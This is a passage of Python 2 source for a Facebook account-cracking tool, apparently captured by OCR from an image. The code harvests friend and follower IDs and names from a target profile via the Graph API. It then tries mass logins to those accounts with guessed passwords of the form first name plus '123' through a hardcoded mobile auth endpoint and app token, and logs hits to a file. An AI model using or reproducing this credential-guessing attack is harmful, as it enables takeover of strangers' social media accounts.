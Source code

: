 			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	   
	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		indiaa2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	
	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")